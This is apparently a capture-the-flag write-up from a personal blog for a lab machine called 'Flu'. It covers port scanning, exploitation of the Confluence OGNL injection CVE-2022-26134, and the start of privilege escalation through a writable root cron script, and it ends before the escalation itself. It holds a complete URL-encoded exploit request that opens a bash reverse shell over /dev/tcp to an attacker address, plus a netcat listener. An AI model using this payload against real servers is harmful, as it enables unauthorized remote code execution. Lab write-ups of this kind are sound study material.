

repository: gmrvh/blog · page: pg/flu/index.html · generator: mkdocs

# Flu - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed three open ports:
```
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH (Unknown version)
8090/tcp open  http          Atlassian Confluence 7.13.6
8091/tcp open  http          Unknown web service
```

### Web Enumeration
Upon accessing the web server on port 8090, I identified it as running:
```
Atlassian Confluence 7.13.6
```

Research revealed this version is vulnerable to a critical remote code execution vulnerability (CVE-2022-26134) that allows unauthenticated attackers to execute arbitrary code on affected instances.

## Gaining Initial Access

### Exploiting CVE-2022-26134
After researching the vulnerability, I found it was related to an OGNL injection vulnerability in Confluence's "nashorn" script engine, allowing attackers to execute arbitrary code via URL payload.

I crafted a malicious payload to establish a reverse shell:
```
GET /%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.157/3001%200%3E%261%27%29.start%28%29%22%29%7D/ HTTP/1.1
Host: 192.168.110.41:8090
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

Before sending this payload, I set up a netcat listener on my attack machine:
```bash
nc -lvnp 3001
```

After sending the request, I successfully received a reverse shell connection.

## Privilege Escalation

### System Enumeration
After gaining initial access, I began enumerating the system for potential privilege escalation vectors:

```bash
find / -type f -perm -4000 2>/dev/null
find / -perm -2 -type f -not -path "*/proc/*" 2>/dev/null
```

I discovered an interesting script with writable permissions:
```
/opt/log-backup.sh
```

### Process Monitoring
To understand how this script was being executed, I used `pspy` to monitor processes:
```bash
./pspy64 -pf -i 1000
```

This revealed that the script was being executed by a cron job running as root:
```
2023/06/14 09:15:01 CMD: UID=0    PID=3842   | /bin/bash /opt/log-backup.sh
```
